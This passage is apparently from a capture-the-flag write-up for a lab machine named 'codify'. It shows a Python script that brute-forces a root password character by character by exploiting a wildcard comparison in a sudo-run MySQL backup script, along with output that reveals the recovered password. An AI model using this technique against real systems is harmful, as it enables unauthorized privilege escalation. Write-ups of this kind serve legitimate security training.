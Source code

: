 ```bash
joshua@codify:~$ 
```
Yes It worked I have just provided "*" over the password field

```bash
Enter MySQL password for root: * #[Enter]
```

Now let's find out the root password

#### Bruteforcing to get the root password


```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Python script to get the root access.


Note the code 
```python
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
```
It simply runs the pattern comparision until it get's the complete password


Now As I have saved the code over the server time to bruteforce.


```bash
joshua@codify:~$ python3 exploit.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
```
